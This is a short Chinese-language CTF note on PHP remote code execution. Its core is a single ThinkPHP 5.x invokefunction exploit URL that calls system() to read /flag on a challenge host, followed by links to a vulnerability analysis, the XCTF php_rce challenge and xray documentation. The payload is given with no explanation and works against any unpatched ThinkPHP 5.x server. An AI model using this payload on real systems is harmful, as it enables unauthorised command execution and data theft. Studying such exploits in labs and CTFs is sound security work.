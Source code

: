 ```yaml
---
title: CTF中的PHP RCE 知识点
date: 2023-01-05 12:46:39
keywords: ctf, rce, php rce
description:  
---
```




```sh
http://61.147.171.105:50474/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag
```



## 参考资料

1. [ThinkPHP5.x远程命令执行漏洞分析](https://blog.riskivy.com/thinkphp5-x%e8%bf%9c%e7%a8%8b%e5%91%bd%e4%bb%a4%e6%89%a7%e8%a1%8c%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/)
2. [攻防世界 php_rce 题目](https://adworld.xctf.org.cn/challenges/details?hash=fab9bb4e-12e7-4158-b971-f560fad8891a_2&task_category_id=3)
3. [xray 的官方使用文档](https://docs.xray.cool/#/tutorial/prepare)
